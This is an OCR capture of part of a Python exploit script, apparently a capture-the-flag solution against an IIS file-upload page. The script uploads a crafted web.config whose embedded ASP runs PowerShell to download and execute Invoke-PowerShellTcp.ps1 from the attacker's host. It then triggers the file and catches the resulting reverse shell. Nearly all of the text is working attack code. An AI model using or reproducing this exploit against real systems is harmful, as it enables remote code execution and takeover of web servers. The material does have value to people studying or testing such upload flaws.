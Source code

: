```py
    data = "-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"__VIEWSTATE\"\r\n\r\n"+ viewstate +"\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"__EVENTVALIDATION\"\r\n\r\n"+ event +"\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"FileUpload1\"; filename=\"web.config\"\r\nContent-Type: application/octet-stream\r\n\r\n<?xml version=\"1.0\" encoding=\"UTF-8\"?>\r\n<configuration>\r\n   <system.webServer>\r\n      <handlers accessPolicy=\"Read, Script, Write\">\r\n         <add name=\"web_config\" path=\"*.config\" verb=\"*\" modules=\"IsapiModule\" scriptProcessor=\"%windir%\\system32\\inetsrv\\asp.dll\" resourceType=\"Unspecified\" requireAccess=\"Write\" preCondition=\"bitness64\" />\r\n      </handlers>\r\n      <security>\r\n         <requestFiltering>\r\n            <fileExtensions>\r\n               <remove fileExtension=\".config\" />\r\n            </fileExtensions>\r\n            <hiddenSegments>\r\n               <remove segment=\"web.config\" />\r\n            </hiddenSegments>\r\n         </requestFiltering>\r\n      </security>\r\n   </system.webServer>\r\n   <appSettings>\r\n</appSettings>\r\n</configuration>\r\n<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!\r\n<%\r\nSet rs = CreateObject(\"WScript.Shell\")\r\nSet cmd = rs.Exec(\"cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://" + lhost + "/Invoke-PowerShellTcp.ps1')\") \r\no = cmd.StdOut.Readall() \r\nResponse.write(o) \r\n%>\r\n-->\n\r\n-----------------------------746245891582727206331504062\r\nContent-Disposition: form-data; name=\"btnUpload\"\r\n\r\nUpload\r\n-----------------------------746245891582727206331504062--\r\n"
    upload = r.post(url, headers=headers, data=data, proxies=proxies)
    if "successfully" in upload.text:
        print("[+] Upload Done! [+]")
        os.system("sleep 5")
    else:
        print("[+] Failed to Upload! [+]")
        exit

# Get reverse shell
def callRev(rhost):
    print("[+] Let's call the reverse shell! [+]")
    url = "http://%s:80/UploadedFiles/web.config" %rhost
    r.get(url, proxies=proxies)
    print("[+] Reverse shell called! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--localport', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Let's first mount the payload
    mountPayload(lhost,lport)
    # Let's get the __eventid e o __viewstate
    getValues(rhost)
    # Let's upload it
    uploadWebConfig(rhost,lhost)
    # Let's call the reverse shell
    callRev(rhost)

```